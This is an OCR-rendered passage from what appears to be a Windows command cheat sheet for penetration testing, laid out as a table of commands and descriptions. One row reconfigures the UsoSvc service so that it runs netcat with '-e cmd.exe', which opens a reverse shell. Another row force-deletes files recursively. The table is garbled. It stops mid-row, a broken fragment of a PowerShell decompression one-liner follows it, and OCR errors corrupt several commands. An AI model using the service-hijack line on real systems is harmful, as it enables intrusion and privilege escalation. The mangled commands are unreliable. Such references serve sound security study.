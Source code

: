 ## Functional commands



<table>
   <thead>
     <tr>
       <th style="text-align:left"><b>Command</b>
       </th>
       <th style="text-align:left"><b>Description</b>
       </th>
     </tr>
   </thead>
   <tbody>
     <tr>
       <td style="text-align:left">type file</td>
       <td style="text-align:left">Show file contents</td>
     </tr>
     <tr>
       <td style="text-align:left">del path \&apos; .&#x2022; /a /s /q /f</td>
       <td style="text-align:left">Delete files in current path</td>
     </tr>
     <tr>
       <td style="text-align:left">
         <p>find /I &apos;&apos;str&apos;&apos; filename</p>
         <p>command I find /c /v &quot;&quot;</p>
       </td>
       <td style="text-align:left">List of cmd outputs</td>
     </tr>
     <tr>
       <td style="text-align:left">at HH:MM file [args] (i.e. at 14:45 cmd /c)</td>
       <td style="text-align:left">File execution schedule</td>
     </tr>
     <tr>
       <td style="text-align:left">runas /user: user &quot; file [args]&quot;</td>
       <td style="text-align:left">Execute file with specific user</td>
     </tr>
     <tr>
       <td style="text-align:left">restart /r /t 0</td>
       <td style="text-align:left">Restart</td>
     </tr>
     <tr>
       <td style="text-align:left">sc stop UsoSvc</td>
       <td style="text-align:left">Stop the UsoSvc service</td>
     </tr>
    <tr>
      <td style="text-align:left">sc start UsoSvc</td>
<td style="text-align:left">Starting the UsoSvc service</td>
    </tr> 
    <tr>
      <td style="text-align:left">sc config UsoSvc binpath="c:\windows\temp\nc.exe ip port -e C:\windows\system32\cmd.exe"       </td>
<td style="text-align:left">Change path of executable file by UsoSvc</td>
    </tr> 
    <tr>
      <td style="text-align:left">tr -d &apos;\15\32&apos; win.txt unix.txt</td>
      <td style="text-align:left">Delete CR &amp; &apos;Z (&apos;nix)</td>
    </tr>
    <tr>
      <td style="text-align:left">makecab file</td>
<td style="text-align:left">Compression</td>
    </tr>
    <tr>
      <td style="text-align:left">Wusa.exe /uninstall /kb: ###</td>

[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"
